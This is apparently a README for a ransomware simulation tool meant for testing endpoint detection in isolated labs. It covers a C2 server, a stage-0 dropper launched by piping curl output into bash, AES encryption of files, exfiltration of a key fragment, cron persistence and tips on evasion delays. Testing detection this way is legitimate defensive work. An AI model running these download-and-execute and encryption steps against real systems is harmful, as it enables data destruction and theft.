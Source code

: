 # MockBit 2.0 – Safe Ransomware Simulation for EDR Validation

⚠️  READ FIRST  
MockBit is a CONTROLLED, REVERSIBLE lab tool.  
Use only in isolated VMs or air-gapped networks you own.  
NEVER run against production, shared, or third-party systems.

--------------------------------------------------------------------
1. What it does
--------------------------------------------------------------------
MockBit behaves like real ransomware (T1486) but keeps you in full control:

Stage        | Realism                        | Safety net
-------------|--------------------------------|--------------------------------
Delivery     | curl / wget payload            | No exploits, no priv-esc
Encryption   | AES-256-CBC via OpenSSL        | Key logged → 100 % decryptable
Exfiltration | File list + key fragment       | Only dummy data you created
Persistence  | Optional cron job              | One-liner removal included
Cleanup      | –                              | Built-in decryptor + uninstaller

--------------------------------------------------------------------
2. Quick start (5 min)
--------------------------------------------------------------------
Lab topology
    +-----------+      +---------------+
    | Attacker  |----->| Victim VM     |
    | (C2 host) |      | (SentinelOne) |
    +-----------+      +---------------+

One-command install (on attacker – AlmaLinux 8.10)
sudo dnf install -y git python3-pip openssl
git clone https://github.com/Deathcrusher/mockbit_2.0.git
cd mockbit_2.0
chmod +x setup.sh && sudo ./setup.sh

Example output
C2 ready: http://192.168.1.100:8080
Payload URL: http://192.168.1.100:8000/payload_downloader.sh
Test files: /tmp/test_victim (200 items)

Trigger on victim (non-root for max EDR sensitivity)
curl -s http://192.168.1.100:8000/payload_downloader.sh | bash
Watch SentinelOne pop alerts → decrypt when finished.

--------------------------------------------------------------------
3. File map
--------------------------------------------------------------------
mockbit_2.0/
├── setup.sh              # installer & test-file generator
├── c2_server.py          # Flask C2 (beacon, exfil, key log)
├── payload_downloader.sh # stage-0 dropper
├── ransomware_core.sh    # stage-1 encryptor
├── decryptor.sh          # stage-2 recovery
├── uninstall.sh          # removes cron / tmp data
└── README.md             # this file

--------------------------------------------------------------------
4. Manual usage (skip setup.sh if you like)
--------------------------------------------------------------------
Encrypt only
./ransomware_core.sh /target/dir http://c2:8080

Decrypt only
./decryptor.sh /target/dir "KEY" "IV"

Stop C2
pkill -f c2_server.py

Wipe traces
./uninstall.sh

--------------------------------------------------------------------
5. Customising
--------------------------------------------------------------------
Target dir        – edit TARGET_DIR in any *.sh
Cipher            – change openssl enc -aes-256-??? 
Evasion delays    – add sleep $((RANDOM%10))
Multi-thread      – xargs -P 8 -I {} …
C2 endpoint       – change C2_URL variable

--------------------------------------------------------------------
6. Troubleshooting
--------------------------------------------------------------------
Port 8080 blocked
sudo firewall-cmd --add-port=8080/tcp --permanent && sudo firewall-cmd --reload

No SentinelOne alert
Run as NON-root; enable “Deep Visibility” & “Ransomware” policy

Decrypt fails
Use KEY+IV from SAME run (check C2 /exfil endpoint or ransom note)

Python missing
sudo dnf install python3 python3-pip && pip3 install flask

--------------------------------------------------------------------
7. License & contribution
--------------------------------------------------------------------
MIT © 2025 Deathcrusher 
Pull-requests welcome: Windows port, extra TTPs, EDR bypass notes (educational)

--------------------------------------------------------------------
8. MITRE mapping
--------------------------------------------------------------------
T1566.002  Initial Access   – curl/wget payload
T1059.004  Execution        – Unix shell
T1053.003  Persistence      – cron job (optional)
T1041      Exfiltration     – HTTP POST to C2
T1486      Impact           – Data encrypted for impact
